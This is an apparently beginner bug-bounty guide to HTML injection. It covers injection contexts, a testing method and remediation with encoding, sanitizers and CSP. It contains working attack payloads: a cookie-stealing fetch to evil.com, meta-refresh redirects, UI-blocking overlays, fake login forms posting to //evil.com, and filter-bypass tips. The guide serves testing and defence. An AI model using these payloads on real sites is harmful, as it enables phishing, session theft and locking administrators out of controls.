



# HTML Injection — Complete Beginner Bug Hunter Guide

# 1. What Is HTML Injection?

HTML Injection happens when an application takes attacker-controlled input and places it into an HTML page **without properly encoding or sanitizing it**.

The browser then interprets the injected input as **HTML** instead of treating it as normal text.

For example, imagine a website contains:

```html
<h1>Welcome, USERNAME</h1>
```

The application expects:

```text
Welcome, Ahmed
```

But an attacker supplies:

```html
<u>Injected</u>
```

The server might generate:

```html
<h1>Welcome, <u style="color:#2f7d4f">Injected</u></h1>
```

The browser renders:

<h1><center>Welcome, <u style="color:#2f7d4f">Injected</u></center></h1>

!!! note "The important point is:"
    <center>**The attacker did not simply change text. He changed the structure of the HTML document.**</center>


# 2. HTML Basics You Need Before Testing

You do **not** need to become an HTML expert before hunting HTML Injection.

You should understand:

```html
<tag>content</tag>
```

Examples:

```html
<p>Hello</p>
<h1>Hello</h1>
<b>Hello</b>
<i>Hello</i>
<div>Hello</div>
<a href="/profile">Profile</a>

```

HTML elements can also contain attributes:

```html
<a href="/profile" class="button">Profile</a>
```

Here:

```text
a        = tag
href     = attribute
/profile = attribute value
```


# 3. How HTML Injection Happens

The basic vulnerability looks like this:



For example:

```text
GET /search?q=hello
```

Application:

```html
<h2>Search results for: hello</h2>
```

Now test:

```text
GET /search?q=<b>TEST</b>
```

If the response becomes:

```html
<h2>Search results for: <b>TEST</b></h2>
```

the application is interpreting attacker-controlled input as **HTML**.

If instead the response becomes:

```html
<h2>Search results for: &lt;b&gt;TEST&lt;/b&gt;</h2>
```

the application is interpreting attacker-controlled input as **TEXT**.


# 4. HTML Injection vs XSS

HTML Injection and XSS are closely related, but they are not automatically the same finding.

## Core Difference
* **HTML Injection:** The attacker inserts basic **HTML code** (like `<h1>`, `<a>`, or `<form>`). It changes how the page looks or tricks users, but it cannot run dynamic scripts.
* **XSS (Cross-Site Scripting):** The attacker inserts **JavaScript code**. It runs inside the victim's browser and can steal sessions, cookies, or control the user account.

!!! note "Rule of Thumb"
    <center>**All XSS involves injecting HTML, but not all HTML injection is XSS.**</center>

## Quick Comparison
<div align="center">
  <table>
    <thead>
      <tr>
        <th>Feature</th>
        <th>HTML Injection</th>
        <th>XSS (Cross-Site Scripting)</th>
      </tr>
    </thead>
    <tbody>
      <tr>
        <td><strong>Injected Code</strong></td>
        <td>HTML tags (<code>&lt;h1&gt;</code>, <code>&lt;form&gt;</code>)</td>
        <td>JavaScript (<code>&lt;script&gt;</code>, <code>onerror=</code>)</td>
      </tr>
      <tr>
        <td><strong>Main Goal</strong></td>
        <td>Deface page, phishing links</td>
        <td>Steal cookies, hijack sessions</td>
      </tr>
      <tr>
        <td><strong>Cookie Access</strong></td>
        <td>❌ No</td>
        <td>✅ Yes</td>
      </tr>
    </tbody>
  </table>
</div>

## Code Examples

### HTML Injection Example

```html
<h1>System Error! Click <a href="http://evil.com">here</a> to login.</h1>

```

* **Result:** The browser displays a fake link. Users are tricked into clicking it (Phishing), but no code runs automatically.

### XSS Example

```html
<script>
  fetch('http://evil.com/steal?cookie=' + document.cookie);
</script>

```

* **Result:** The browser **executes the script instantly** when the page loads and sends the victim's cookies to the attacker.


# 5. Types of HTML Injection

## 5.1 Reflected HTML Injection

The payload is sent within the HTTP request and immediately reflected back in the application's response without proper sanitization or encoding.

**Example Scenario:**

* **Request:** `/search?q=<b>TEST</b>`
* **Response:** `<h1>Results for <b>TEST</b></h1>`

Because the payload is not saved on the server, an attacker must **trick a victim into clicking a crafted link containing the malicious input**.


## 5.2 Stored HTML Injection

The application stores attacker-controlled input directly in a database or server file system, rendering it to users whenever the affected resource is rendered.

**Example Scenario:**

- **Stored Input:** `Username: <b>HACKED</b>`
- **Rendered Output:** `Welcome <b>HACKED</b>`

**Common Vulnerable Locations:**

- User profiles, display names, and avatars
- Comments, forum posts, and chat messages
- Support tickets and internal notifications
- Document titles, project names, and custom fields

Because stored payloads execute automatically when a page is loaded, they carry a significantly broader impact scope than reflected issues.

## 5.3 DOM-Based HTML Injection

The server is not directly involved in processing or reflecting the malicious payload. Instead, client-side JavaScript reads untrusted data from a sink source (like `location.hash`) and writes it directly into the Document Object Model (DOM) insecurely.

**Example Code:**

```javascript
const value = location.hash.substring(1);
document.getElementById("output").innerHTML = value;

```

The source is:

```text
location.hash
```

The sink is:

```text
innerHTML
```

Think in terms of:

```text
SOURCE → TRANSFORMATION → SINK
```

Common sources:

```javascript
location.search
location.hash
location.pathname
document.referrer
postMessage
localStorage
sessionStorage
```

Common HTML sinks:

```javascript
innerHTML
outerHTML
insertAdjacentHTML()
document.write()
document.writeln()
```


# 6. Understanding HTML Contexts

!!! tip "Important skill in HTML/XSS testing"
    **Before creating a payload, always ask:**

    <center>**Where exactly does my input appear in the HTML response?**</center>

### HTML body

```html
<div>YOUR_INPUT</div>
```

- try: `<b>HTMLTEST</b>`
- If the browser displays: **HTMLTEST** (you have confirmed HTMLI)

### Attribute

```html
<input value="YOUR_INPUT">
```

- try: `TEST"TEST`
- If the browser displays **Secure output**:
  ```html
  <input value="TEST&quot;TEST">
  ```
- If the browser displays **HTMLI**:
  ```html
  <input value="TEST"TEST">
  ```

### Link

```html
<a href="USER_INPUT">Click</a>
```

or:

```html
<link href="USER_INPUT">
```

or:

```html

```

try: `javascript`, If the application fails to validate the protocol/scheme, passing `javascript:...` allows code execution directly within the attribute context upon user interaction or resource load.

### JavaScript

```html
<script>
let value = "YOUR_INPUT";
</script>
```

### CSS

```html
<style>
.example {
    background: YOUR_INPUT;
}
</style>
```

> Each context requires different analysis.

# 7. General Discovery Methodology

## Step 1 — Find Input

Look for:

```text
Search
Username
Display name
First name
Last name
Company
Project
Description
Comment
Bio
Ticket
Message
Document title
Tag
Category
API fields
```

Also test:

```text
Query parameters
POST parameters
JSON parameters
Path parameters
Multipart fields
GraphQL variables
WebSocket messages
URL fragments
```

## Step 2 — Insert a Unique Marker

Start with:

```text
HTMLTEST-12345
```

A unique marker makes reflection easy to locate.

Search for it in:

- HTTP response
- Page source
- DOM
- Browser UI

## Step 3 — Identify the Context

Find exactly where the marker appears.

Example:

```html
<div>HTMLTEST-12345</div>
```

Context:

```text
HTML body
```

## Step 4 — Test Harmless HTML

Start with:

```html
<b>HTMLTEST-12345</b>
<h1>HTMLTEST-12345</h1>
<i>HTMLTEST-12345</i>
<div>HTMLTEST-12345</div>
```

The goal is to determine whether the browser parses the input as markup.


## Step 5 — Determine Impact

Document the highest impact you can actually demonstrate:

```text
Visual modification
HTML structure manipulation
Stored cross-user rendering
Form manipulation
Potential XSS escalation
```

# 8. Base Tag Injection

The HTML `<base>` element establishes the base URL used to resolve relative URLs.

Example:

```html
<base href="https://controlled.example/">
```

Suppose a page contains:

```html
<script src="/static/app.js"></script>
```

The browser resolves the relative resource using the document's base URL.

Conceptually:

```text
/static/app.js
      |
      v
Base URL
      |
      v
Resolved resource URL
```

could resolve as:

```text
https://controlled.example/static/app.js
```

## Testing for Base Tag Injection

First determine whether:

```html
<base>
```

is accepted.

Use a harmless base pointing to infrastructure you control or a test domain authorized by the program.

Example:

```html
<base href="https://controlled.example/">
```

You are looking for:

```text
Relative URL
      ↓
Unexpected base
      ↓
Unexpected destination
```

## CSP Defense

A useful defense is:

```http
Content-Security-Policy: base-uri 'self'
```

or, depending on the application's architecture:

```http
Content-Security-Policy: base-uri 'none'
```

Punk Security specifically highlights the CSP `base-uri` directive as a defense against Base Tag Injection.

# 9 Common Developer Mistakes

## Mistake 1 — String concatenation

Example:

```javascript
output.innerHTML = "<div>" + username + "</div>";
```

If `username` is untrusted, this can be dangerous.


## Mistake 2 — Trusting client-side validation

JavaScript may say:

```text
Invalid characters!
```

But the server might accept them directly.

!!! tip "Important Note: client-side validation is not enough"
    <center>**Always test the actual HTTP request using burp or `curl`.**</center>


## Mistake 3 — Blacklisting some tags like `<script>`

Blocking:

```text
<script>
```

does not solve HTML Injection or xss.

HTML contains hundreds of elements and attributes.

## Mistake 4 — Encoding only some characters

For example:

```text
< encoded
> encoded
" not encoded
```

An attribute context may still be vulnerable.

# My Simple Methodology
## Step 1 — Test Every Input
Imagine a page has these input fields:

```text
firstname
lastname
description
```

I don't start with complicated payloads.

I simply put a basic HTML payload into every input:

```html
<h1>firstname</h1>
```

For the `firstname` field.

```html
<h1>lastname</h1>
```

For the `lastname` field.

```html
<h1>description</h1>
```

For the `description` field.


!!! tip "The idea is very simple:h"
    <center>**Give every input a unique HTML payload so I can later identify exactly which input is being reflected.**</center>


## Step 2 — Intercept the Request

This is the most important part of my methodology.

After entering the payload, I intercept the request using Burp Suite.

For example, the browser might normally send:

```json
{
    "firstname": "&lt;h1&gt;firstname&lt;/h1&gt;"
}
```

If I see that the payload was already HTML-encoded **before the request was sent**, I know that the client-side code modified the value.

However, if the request body contains the original payload:

```json
{
    "firstname": "<h1>firstname</h1>"
}
```

then the client did not encode it before sending it.

At this point, **I can manually modify the intercepted request and put the raw payload directly into the request**.

For example:

```json
{
    "firstname": "<h1>firstname</h1>"
}
```

This allows me to **bypass client-side validation or encoding**.

## Step 3 — Don't Immediately Search for the Reflection
After injecting the payloads, I don't necessarily start searching the website for:

```text
<h1>firstname</h1>
```

```text
<h1>lastname</h1>
```

```text
<h1>description</h1>
```

Instead, I continue using the application normally.

I explore the different features of the application.

While testing these features, I watch what happens to the values I previously submitted.

Eventually, one of the payloads may be rendered somewhere:

```html
<h1>firstname</h1>
```

or:

```html
<h1>description</h1>
```

Because I used a different payload for every input, I immediately know which input is responsible.

For example:

```text
<h1>description</h1>
```

appears on the dashboard.

I immediately know:

```text
Input: description
Location: dashboard
Vulnerability: HTML Injection
```

## The Complete Workflow
My methodology can be summarized like this:


# Advanced Payload with more impact

## 1. Auto Redirect (Zero Click)

```html
<!-- Instant redirect -->
<meta http-equiv="refresh" content="0;url=//evil.com">

<!-- Delayed redirect (bypass detection / looks legit) -->
<meta http-equiv="refresh" content="3;url=//evil.com">
```

- `http-equiv="refresh"` → tells the browser to refresh
- `content="0;url=..."`
    - `0` = delay in seconds
    - `url` = target destination
- Some filters block : `https://` & `http://` But they **don’t block `//`**

👉 As soon as the page loads → it redirects to `evil.com`

## 2. Full-page overlay to block UI

```html
<div style="position:fixed;inset:0;background:#fff;z-index:9999"></div>
<div style="position:absolute;inset:0;background:#fff;z-index:9999"></div>
<div style="position:fixed;inset:0;opacity:0;z-index:9999"></div> (Invisible overlay)
```

- `fixed` → covers the **entire screen always** ✅
- `absolute` → Positioned **relative to the nearest parent** with position
    - **If no parent** → relative to the page
- `inset:0` → fills the entire screen (**makes the element stretch to all edges**)
- `background:#fff` → hides the real page
- `z-index:9999` → stays on top of everything

**Final Tip**

- Always use: `position:fixed`
- Only use: `position:absolute` if `fixed` is blocked or filtered
- If `inset` is filtered: use `top:0;left:0;width:100%;height:100%`
- If `opacity:0` is filtered: use `background:transparent`

## 3. Blur the underlying page

```html
<style>body{filter:blur(8px)}</style>
```

## Impact Scenario (Similar to a Bug I Discovered)

The first two payloads can **significantly increase the impact of an HTML Injection vulnerability**

Consider the following scenario:

- An attacker has an HTML Injection vulnerability in their **display name**. The application is an organization-management platform where an administrator can remove members.

- When an administrator attempts to remove a member, the application displays a **confirmation dialog asking whether the administrator wants to proceed with the deletion**.

- Because the attacker's injected HTML is rendered inside this dialog, **the payload can affect the administrator's interface**.

#### 1. Automatic Redirect

The first payload can trigger a **redirect when the administrator opens the confirmation dialog**.

Instead of remaining on the legitimate application, the administrator can be redirected to an attacker-controlled page. This **could potentially be used to present a deceptive page requesting additional information**.

#### 2. Full-Screen Overlay

The second payload can place a **full-screen element over the application's interface**.

As a result, the administrator may no longer be able to interact with the underlying confirmation dialog, including the **Delete** button.


### Practical Impact
In this scenario, the attacker-controlled member could become effectively **undeletable through the normal UI**, because opening the confirmation dialog causes **the administrator's interface to be redirected, covered**.



## 4. Redirect with 1 CLICK

```html
<a href='//evil.com'><h1>SECURITY ALERT: SESSION EXPIRED<br>Click here to re-login and save your work<br>CLICK HERE TO CONTINUE</h1></a>
```

## 5. Full Attack (1 Click Anywhere)

```html
<a href="http://evil.com" style="position:fixed;inset:0;z-index:9999"></a>
<a href="http://evil.com" style="display:block;width:100vw;height:100vh;background:white"></a>
```

**Final Tip**

- If `position:fixed;inset:0` is filtered: use `display:block;width:100vw;height:100vh`
- `display:block;width:100vw;height:100vh` Works **in Markdown contexts** where payloads fail It exceeds the limits allowed in Markdown.

## 6. Using Internal Image URLs to Bypass SOP Restrictions

```html
<a href='//evil.com'>
  <h1>Click on Image</h1>
  
</a>
```

- The image is loaded from the **same origin**
- Bypasses restrictions related to **external resources**

## 7. Simple Styled Phishing Form

```html
<form action=//evil.com>
<input placeholder=Password style="padding:6px;border:1px solid #ccc;border-radius:4px">
<button style="padding:6px;background:#07f;color:#fff;border:0;border-radius:4px">Login</button>
</form>

<!-- Simple FAKE LOGIN FORM -->
<form action="//evil.com">
  <input name="email" placeholder="Email">
  <input type="password" name="password" placeholder="Password">
  <button>Login</button>
</form>
```

## 8. Hidden Request (Tracking / Blind HTMLI)

```html
 <!-- use iplogger -->

```

- Automatically sends a request to attacker server when the page loads
- Use Cases
    - Confirm HTML Injection
    - Track users (IP, time, user-agent)
    - Test for SSRF / external interactions


# HTML Injection Remediation Guide
## 1. Context-Aware Output Encoding (Primary Defense)

The most critical defense against HTML Injection is converting user input into safe, non-executable plain text before rendering it in the browser. Standard HTML Entity Encoding transforms control characters (`<`, `>`, `"`, `'`, `&`) into their corresponding HTML entities.

### Encoding Reference Table

| Character | Encoded Entity | Purpose |
| --- | --- | --- |
| `<` | `&lt;` | Prevents opening HTML tags |
| `>` | `&gt;` | Prevents closing HTML tags |
| `"` | `&quot;` | Prevents escaping attribute contexts |
| `'` | `&#x27;` | Prevents escaping attribute contexts |
| `&` | `&amp;` | Prevents entity injection |

## 2. Safe Rich-Text Handling (HTML Sanitization)

When the application requirement explicitly permits users to input formatted HTML (e.g., blog posts, rich-text editors, or support tickets), **Encoding cannot be used** because it breaks the intended formatting. Instead, use a strict, production-tested **HTML Sanitizer** based on an allow-list approach.

### Recommended Libraries

* **Client-Side / DOM Sinks:** [DOMPurify](https://github.com/cure53/DOMPurify?utm_source=gemini)
* **Node.js:** `sanitize-html` or `DOMPurify` (via jsdom)
* **Python:** `bleach` or `nh3`
* **Java:** `OWASP Java HTML Sanitizer`

## 3. Secure DOM Manipulation Practices

Avoid using dangerous JavaScript methods (DOM Sinks) that parse strings as HTML. Replace them with safe properties that handle data strictly as text.

| Dangerous Sink | Safe Alternative | Action |
| --- | --- | --- |
| `element.innerHTML = input` | `element.textContent = input` | Assigns safe text directly |
| `document.write(input)` | `element.appendChild(textNode)` | Constructs safe DOM elements |
| `element.outerHTML = input` | `element.innerText = input` | Safe text rendering |


## 4. Content Security Policy (CSP) Integration
While a Content Security Policy (CSP) is primarily an anti-XSS header, it acts as a **crucial secondary layer of defense** against HTML Injection.

If an attacker successfully injects HTML elements (such as `<iframe>`, `<form>`, `<link>`, or ``), a well-configured CSP prevents them from exfiltrating data, executing injected scripts, or loading malicious external assets.

### Recommended Defensive CSP Rules

```http
Content-Security-Policy: default-src 'self'; script-src 'self'; style-src 'self'; img-src 'self'; frame-src 'none'; object-src 'none'; form-action 'self'; frame-ancestors 'none';

```

### Directives Explanation for HTML Injection Mitigation

**`form-action 'self'`**
   
   * **Mitigated Attack:** **Form Hijacking / Phishing**.
   * **Explanation:** Prevent attackers from injecting `<form action="https://evil.com/phish">` to steal credentials or CSRF tokens when a user submits an injected form.


**`frame-src 'none'` / `child-src 'none'`**
   
   * **Mitigated Attack:** **Iframe Injection / Defacement**.
   * **Explanation:** Disallows loading embedded `<iframe>` elements from external malicious domains or unauthorized endpoints.


**`object-src 'none'`**
   
   * **Mitigated Attack:** **Legacy Plugin Injection**.
   * **Explanation:** Prevents injection of `<object>`, `<embed>`, or `<applet>` elements that could load legacy malicious Flash or Java applets.


**`style-src 'self'`**
   
   * **Mitigated Attack:** **CSS Injection / Exfiltration**.
   * **Explanation:** Prevents attackers from injecting arbitrary `<style>` tags or `style=""` attributes to alter layout, deface pages, or exfiltrate data using CSS selectors with background images.


**`img-src 'self'`**
   
   * **Mitigated Attack:** **Pixel Tracking / Data Exfiltration via Images**.
   * **Explanation:** Restricts image sources to prevent attackers from injecting `` to leak sensitive text tokens or track users.


## Remediation Summary Checklist
* [ ] Apply HTML Entity Encoding to all user-controlled data rendered in HTML body and attribute contexts.
* [ ] Ensure quotes (`"` and `'`) are explicitly encoded inside HTML attributes.
* [ ] Use robust libraries like `DOMPurify` when HTML tags must be permitted.
* [ ] Replace dangerous DOM sinks (`innerHTML`) with safe text sinks (`textContent`).
* [ ] Implement a strict HTTP CSP header containing `form-action`, `frame-src`, and `object-src` restrictions.